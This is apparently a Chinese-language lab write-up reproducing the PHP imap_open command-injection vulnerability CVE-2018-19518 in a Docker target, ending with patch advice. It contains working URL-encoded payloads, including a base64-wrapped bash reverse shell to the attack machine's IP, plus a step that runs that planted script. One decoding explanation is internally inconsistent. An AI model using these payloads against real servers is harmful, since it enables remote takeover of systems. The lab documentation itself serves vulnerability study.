# PHP imap 远程命令执行漏洞（CVE-2018-19518）

## 漏洞背景
PHP 的 imap_open 函数用于连接IMAP服务器以执行邮件收发操作。在某些Linux发行版（如Debian和Ubuntu）中，imap_open 函数会调用 rsh 来连接远程shell，但这些系统中 rsh 命令实际上是 ssh 命令的符号链接，imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前，没有正确过滤输入参数。攻击者可以通过构造恶意的IMAP服务器名称，注入 -oProxyCommand 参数

## 实验环境
- 靶机IP:192.168.157.131
- 攻击机IP:192.168.93.130

## 复现步骤
进行端口转发后进入环境


输入任意信息后进行抓包


将hostname修改为
```
hostname=aaa+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}&username=111&password=222
```

```
上述中x+-oProxyCommand%3decho%09ZWNobyAnVGhpcyBpcyBhIHRlc3QhJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}的意思如下:
使用url编码解码后x -oProxyCommand=echo ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64 -d|sh}
ZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=的意思是echo 'This is a test!'>/tmp/test
```

进入容器后查看tmp目录发现并查看test文件
```bash
sudo docker exec -it 8999591a03ad /bin/bash
root@8999591a03ad:/var/www/html# cd /tmp
root@8999591a03ad:/tmp# ls
flag-{bmh760e65be-84c5-4e7f-ba70-3cf421c2cc4e}  test
root@8999591a03ad:/tmp# cat test
This is a test!
root@8999591a03ad:/tmp#
```


## 反弹shell
编写一段python脚本实现从原始shell命令到base64编码后输出结果为url编码
在前面以及解释过生成原理，故此处不再阐述
```
x+-oProxyCommand%3decho%09ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMwLzQ0NDQgMD4mMSIgPiAvdG1wLzEyMw==|base64%09-d|sh}
```



再次进入容器发现以及成功写入脚本


攻击机上开启监听


将hostname修改为x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvMTIz|base64%09-d|sh}
该命令意思是/bin/bash /tmp/123，即启动之前注入的脚本


在send后攻击机成功反弹shell，并且进入tmp目录成功发现flag



## 漏洞修复
**升级 php-imap 版本**
此漏洞已在较新版本的 php-imap / uw-imap 库中被修复：
对于使用 libc-client 的 php-imap 用户，可以升级到最新版 PHP 版本（>7.3.13 或 PHP 7.4+）确保底层的 uw-imap 库也更新（如果系统使用）
